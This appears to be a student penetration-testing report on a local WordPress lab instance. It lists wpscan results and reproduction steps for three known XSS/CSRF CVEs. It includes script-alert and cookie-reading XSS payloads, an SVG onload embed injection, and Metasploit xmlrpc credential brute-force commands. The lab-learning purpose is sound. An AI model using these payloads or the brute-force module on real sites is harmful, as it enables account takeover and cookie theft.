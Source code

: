# Pen Testing Report On Wordpress
Testing certain penetration methods on WordPress

## Intial Scan
1.  The first step in my initial scan was to have the docker images of both wordpress and kali running. With kali invoked we will first update the WordPress scans database using 
wpscan --update

2.	Now, I ran wpscan against the running WordPress instance on my local host. Using the following command 
wpscan --url http://127.0.0.1:8080 --api-token YOUR_API_TOKEN
Once scan was run 92 vulnerabilities were found 
 ![](CodePath_WPintialScan.gif)

## Vulenabilities 
### 1. WordPress <= 5.0 - Authenticated Cross-Site Scripting (XSS)
 Fixed in: 4.1.25
References:
- https://wpscan.com/vulnerability/3182002e-d831-4412-a27d-a5e39bb44314
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20153
- https://wordpress.org/news/2018/12/wordpress-5-0-1-security-release/

 ![](first_Vuln_.gif)
 
 Steps to recreate:
 1.Login as admin
 2.Create a post as authenticated user.
 3. Paste script>alert(xss)</script>
 
 ### 2. WordPress 2.8-4.7 - Accessibility Mode Cross-Site Request Forgery (CSRF)
Fixed in: 4.1.14
References:
 - https://wpscan.com/vulnerability/e080c934-6a98-4726-8e7a-43a718d05e79
 - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5492
 - https://github.com/WordPress/WordPress/commit/03e5c0314aeffe6b27f4b98fef842bf0fb00c733
- https://wordpress.org/news/2017/01/wordpress-4-7-1-security-and-maintenance-release/

![](secound_Vuln_.gif)

 Steps to recreate:
 1.Login as admin
 2.Create a post as authenticated user.
 3. <script>alert(document.cookie)</script>

 
 ### 3. WordPress  4.0-4.7.2 - Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds
Fixed in: 4.1.16
References:
- https://wpscan.com/vulnerability/3ee54fc3-f4b4-4c35-8285-9d6719acecf0
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-6817
- https://wordpress.org/news/2017/03/wordpress-4-7-3-security-and-maintenance-release/
 - https://github.com/WordPress/WordPress/commit/419c8d97ce8df7d5004ee0b566bc5e095f0a6ca8
 - https://blog.sucuri.net/2017/03/stored-xss-in-wordpress-core.html
 
  Steps to recreate:
 1.Login as admin
 2.Create a post as authenticated user.
 3. Change from visual tab to text tab 
4. Paste [embed src='https://www.youtube.com/embed/1235689\x3csvg onload=alert(1)\x3e'][/embed]
 
![](four_Vuln_.gif)
 
### 4. Username and password enumeration using metasploit 
 
![](third_Vuln_.gif)
Steps to recreate 
1. start up metsplsoit 
2. Find correct payload, use following commands
   -search type:auxiliary wordpress xmlrpc
   -use auxiliary/scanner/http/wordpress_xmlrpc_login 
4. Set target and conditions for payload
   -setg RHOSTS 127.0.0.1
   -set RPORT 8080
   -set traget uri /
   - set STOP_ON_SUCESS
   - set username/password or useneme/password  files (ex. set PASS_FILE password.txt)
   - set Httptrace TRUE
   - run
 If your files contain the correct username and password once matched the payload will stop running. 

   



